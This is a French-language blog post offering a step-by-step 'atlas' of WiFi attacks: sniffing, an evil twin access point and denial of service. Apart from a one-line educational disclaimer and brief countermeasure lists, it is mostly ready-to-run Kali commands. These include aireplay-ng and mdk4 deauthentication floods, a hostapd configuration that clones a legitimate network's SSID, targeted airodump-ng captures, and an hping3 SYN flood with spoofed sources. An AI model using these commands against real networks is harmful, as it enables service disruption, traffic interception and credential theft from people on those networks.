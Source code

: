 ```yaml
---
title: Attaques WiFi
time: 2024-12-17 12:00:00
categories: [Hacking]
tags: [kali,wifi,hack,cybersecurity]
image: /assets/posts/WiFi/wifi.png 
---
```



# 🌐 Atlas des Attaques WiFi : Comprendre pour Mieux Protéger

## 🚨 Préambule Éthique

> **ATTENTION :** Ce guide est strictement à des fins éducatives et professionnelles.

## 📡 1. Attaque par Écoute (Sniffing)

### 🎯 Objectif
Intercepter et analyser le trafic réseau sans fil de manière non autorisée.

### 🛠 Équipement Requis
- Ordinateur sous Kali Linux
- Carte WiFi compatible mode monitor
- Antenne WiFi externe (recommandé)

### 🔍 Étapes Détaillées d'Exploitation

#### Étape 1 : Préparation de l'Environnement
```bash
# Vérifier les interfaces réseau
ifconfig

# Passer l'interface en mode monitor
airmon-ng start wlan0

# Vérifier l'interface monitor
iwconfig
```

#### Étape 2 : Scan des Réseaux Disponibles
```bash
# Lister les réseaux WiFi
airodump-ng wlan0mon

# Cibler un réseau spécifique
airodump-ng -c [CHANNEL] --bssid [MAC_ADDRESS] -w capture wlan0mon
```

#### Étape 3 : Capture des Données
```bash
# Forcer la réauthentification
aireplay-ng --deauth 100 -a [BSSID] wlan0mon

# Analyser les captures
wireshark capture-01.cap
```

### 🛡️ Contre-Mesures
- Utiliser uniquement WPA3
- Chiffrer les communications sensibles
- Éviter les réseaux publics non sécurisés

## 🕳️ 2. Attaque Evil Twin

### 🎯 Objectif
Créer un point d'accès malveillant identique à un réseau légitime.

### 🛠 Équipement Requis
- Ordinateur sous Kali Linux
- Carte WiFi avec mode AP
- Antenne WiFi puissante

### 🔍 Étapes Détaillées d'Exploitation

#### Étape 1 : Préparation de l'Interface
```bash
# Configurer l'interface en mode monitor
airmon-ng start wlan0

# Identifier les réseaux à proximité
airodump-ng wlan0mon
```

#### Étape 2 : Clonage du Réseau
```bash
# Installer les outils
apt-get install hostapd

# Créer un fichier de configuration
nano /etc/hostapd/hostapd.conf

# Exemple de configuration
interface=wlan0
driver=nl80211
ssid=[NOM_RESEAU_ORIGINAL]
channel=6
hw_mode=g
wpa=2
wpa_passphrase=[MOT_DE_PASSE]
```

#### Étape 3 : Déconnexion des Clients
```bash
# Forcer la déconnexion
aireplay-ng --deauth 100 -a [BSSID_ORIGINAL] wlan0mon
```

#### Étape 4 : Lancement du Point d'Accès Malveillant
```bash
# Démarrer le point d'accès
hostapd /etc/hostapd/hostapd.conf
```

### 🛡️ Contre-Mesures
- Vérification des certificats
- Authentification 802.1X
- Utilisation d'un VPN

## 🚫 3. Attaque par Déni de Service (DoS)

### 🎯 Objectif
Rendre un réseau WiFi inutilisable par saturation.

### 🛠 Équipement Requis
- Ordinateur sous Kali Linux
- Carte WiFi compatible mode monitor

### 🔍 Étapes Détaillées d'Exploitation

#### Étape 1 : Reconnaissance
```bash
# Scanner les réseaux
airodump-ng wlan0mon
```

#### Étape 2 : Attaque de Déconnexion
```bash
# Attaque de déauthentification
aireplay-ng --deauth 0 -a [BSSID] wlan0mon

# Attaque massive
mdk4 wlan0mon d -c [CHANNEL] -B [BSSID]
```

#### Étape 3 : Saturation du Réseau
```bash
# Envoi de paquets broadcast
hping3 -S -p 80 --flood --rand-source [IP_CIBLE]
```

### 🛡️ Contre-Mesures
- Configurer des pare-feux avancés
- Limiter les connexions simultanées
- Mettre à jour régulièrement les firmwares



